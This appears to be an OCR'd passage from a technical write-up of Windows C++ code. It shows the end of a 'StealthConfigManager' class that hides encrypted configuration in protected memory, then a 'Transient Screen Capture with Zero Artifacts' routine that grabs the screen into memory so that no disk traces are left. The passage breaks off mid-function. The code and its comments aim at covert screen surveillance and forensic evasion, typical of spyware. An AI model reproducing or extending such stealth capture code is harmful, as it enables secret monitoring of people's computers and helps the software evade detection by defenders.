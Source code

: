 ```cpp
        
        // Temporarily change protection
        DWORD oldProtect;
        VirtualProtect(configMemory, configSize, PAGE_READONLY, &oldProtect);
        
        // Decrypt and copy data
        uint8_t* source = configMemory + ptr.offset;
        DecryptData(outBuffer, source, ptr.size);
        
        // Restore protection
        VirtualProtect(configMemory, configSize, PAGE_NOACCESS, &oldProtect);
        
        return true;
    }
    
    ~StealthConfigManager() {
        // Securely wipe memory before releasing
        if (configMemory) {
            DWORD oldProtect;
            VirtualProtect(configMemory, configSize, PAGE_READWRITE, &oldProtect);
            SecureWipeMemory(configMemory, configSize);
            VirtualFree(configMemory, 0, MEM_RELEASE);
        }
    }
};
```

### 2.2 Transient Screen Capture with Zero Artifacts

```cpp
// Perform screen capture with zero disk artifacts
void CaptureScreenToClipboardWithoutTraces() {
    // Instead of saving to disk or using typical APIs, use a more discrete approach
    
    // 1. Create a compatible DC in memory only
    HDC hdcScreen = GetDC(NULL);
    HDC hdcMemory = CreateCompatibleDC(hdcScreen);
    
    // Get screen dimensions
    int width = GetSystemMetrics(SM_CXSCREEN);
    int height = GetSystemMetrics(SM_CYSCREEN);
    
    // 2. Create a bitmap in memory
    HBITMAP hBitmap = CreateCompatibleBitmap(hdcScreen, width, height);
    HBITMAP hOldBitmap = (HBITMAP)SelectObject(hdcMemory, hBitmap);
    
    // 3. Copy screen to memory DC
    BitBlt(hdcMemory, 0, 0, width, height, hdcScreen, 0, 0, SRCCOPY);
    
    // 4. Create a memory stream instead of file
    IStream* pStream = NULL;
    CreateStreamOnHGlobal(NULL, TRUE, &pStream);
    
    // 5. Use GDI+ to encode directly to stream
    // This avoids temporary files completely
    Gdiplus::GdiplusStartupInput gdiplusStartupInput;
    ULONG_PTR gdiplusToken;
    Gdiplus::GdiplusStartup(&gdiplusToken, &gdiplusStartupInput, NULL);
    
    // Get bitmap data
    Gdiplus::Bitmap* gdiBitmap = Gdiplus::Bitmap::FromHBITMAP(hBitmap, NULL);
    
    // Save to stream instead of file
```